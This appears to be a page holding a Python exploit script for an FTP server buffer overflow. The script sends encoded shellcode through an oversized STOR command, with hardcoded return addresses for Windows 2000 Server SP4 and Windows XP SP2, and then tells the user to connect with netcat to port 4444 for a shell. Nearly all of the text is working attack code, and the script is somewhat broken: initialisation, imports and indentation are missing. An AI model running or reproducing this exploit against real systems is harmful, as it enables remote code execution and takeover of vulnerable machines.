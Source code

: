 ```python
sc += "\x1c\xc2\x83\xeb\xfc\xe2\xf4\x1c\x8e\x4a\xc2\xe0\x66\x4f\x97\xb6"
sc += "\x1a\x38\xd6\x95\x87\x97\x98\xc4\x67\xf7\xa4\x6b\x6a\x57\x49\xba"
sc += "\x7a\x1d\x29\x6b\x62\x97\xc3\x08\x8d\x1e\xf3\x20\x39\x42\x9f\xbb"
sc += "\xa4\x14\xc2\xbe\x0c\x2c\x9b\x84\xed\x05\x49\xbb\x6a\x97\x99\xfc"
sc += "\xed\x07\x49\xbb\x6e\x4f\xaa\x6e\x28\x12\x2e\x1f\xb0\x95\x05\x61"
sc += "\x8a\x1c\xc3\xe0\x66\x4b\x94\xb3\xef\xf9\x2a\xc7\x66\x1c\xc2\x70"
sc += "\x67\x1c\xc2\x56\x7f\x04\x25\x44\x7f\x6c\x2b\x05\x2f\x9a\x8b\x44"
sc += "\x7c\x6c\x05\x44\xcb\x32\x2b\x39\x6f\xe9\x6f\x2b\x8b\xe0\xf9\xb7"
sc += "\x35\x2e\x9d\xd3\x54\x1c\x99\x6d\x2d\x3c\x93\x1f\xb1\x95\x1d\x69"
sc += "\xa5\x91\xb7\xf4\x0c\x1b\x9b\xb1\x35\xe3\xf6\x6f\x99\x49\xc6\xb9"
sc += "\xef\x18\x4c\x02\x94\x37\xe5\xb4\x99\x2b\x3d\xb5\x56\x2d\x02\xb0"
sc += "\x36\x4c\x92\xa0\x36\x5c\x92\x1f\x33\x30\x4b\x27\x57\xc7\x91\xb3"
sc += "\x0e\x1e\xc2\xf1\x3a\x95\x22\x8a\x76\x4c\x95\x1f\x33\x38\x91\xb7"
sc += "\x99\x49\xea\xb3\x32\x4b\x3d\xb5\x46\x95\x05\x88\x25\x51\x86\xe0"
sc += "\xef\xff\x45\x1a\x57\xdc\x4f\x9c\x42\xb0\xa8\xf5\x3f\xef\x69\x67"
sc += "\x9c\x9f\x2e\xb4\xa0\x58\xe6\xf0\x22\x7a\x05\xa4\x42\x20\xc3\xe1"
sc += "\xef\x60\xe6\xa8\xef\x60\xe6\xac\xef\x60\xe6\xb0\xeb\x58\xe6\xf0"
sc += "\x32\x4c\x93\xb1\x37\x5d\x93\xa9\x37\x4d\x91\xb1\x99\x69\xc2\x88"
sc += "\x14\xe2\x71\xf6\x99\x49\xc6\x1f\xb6\x95\x24\x1f\x13\x1c\xaa\x4d"
sc += "\xbf\x19\x0c\x1f\x33\x18\x4b\x23\x0c\xe3\x3d\xd6\x99\xcf\x3d\x95"
sc += "\x66\x74\x32\x6a\x62\x43\x3d\xb5\x62\x2d\x19\xb3\x99\xcc\xc2"
# Change RET address if need be.
buffer = '\x41'*966+struct.pack('<L', 0x7C2FA0F7)+'\x42'*32+sc # RET Windows 2000 Server SP4
#buffer = '\x41'*970+struct.pack('<L', 0x7D17D737)+'\x42'*32+sc # RET Windows XP SP2
try:
# Edit the IP, Username and Password.
ftp = FTP('127.0.0.1')
ftp.login('ftp','ftp')
print "\nEvil Buffer sent..."
print "\nTry connecting with netcat to port 4444 on the remote machine."
except:
print "\nCould not Connect to FTP Server."
try:
ftp.transfercmd("STOR " + buffer)
except:
print "\nDone."
```

**Proof Screenshot:**

![ImgPlaceholder](img/example_screen-300x225.png)
